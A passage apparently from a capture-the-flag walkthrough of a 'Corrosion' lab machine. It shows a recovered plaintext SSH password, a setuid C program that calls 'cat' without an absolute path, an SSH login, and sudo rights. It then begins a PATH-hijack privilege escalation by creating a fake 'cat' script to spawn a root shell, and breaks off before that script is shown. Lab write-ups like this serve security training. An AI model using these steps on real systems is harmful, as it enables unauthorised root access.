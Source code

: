 **Find randy's SSH password in the file *my\_password.txt*:**

```bash
└─$ cat my_password.txt 
randylovesgoldfish1998
```

**Also find the source code for a C file called *easysysinfo* in zip file we downloaded:**

```bash
└─$ cat easysysinfo.c  
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/usr/bin/date");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}
```

**The `cat` command does not use an absolute path, we can use [[Path Abuse]]**

**SSH into the system using randy's password:**

```bash
└─$ ssh randy@192.168.5.120
randy@192.168.5.120's password: 
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)
...
randy@corrosion:~$ 
```

**Run `sudo -l` to find that user randy can run the *easysysinfo* tool as root:**

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
```

**Change to the *tools* directory can create a new bash script named *cat*:**

```bash
randy@corrosion:~$ cd tools
randy@corrosion:~/tools$ nano cat
```

**Write the following for a basic bash script to spawn shell:**
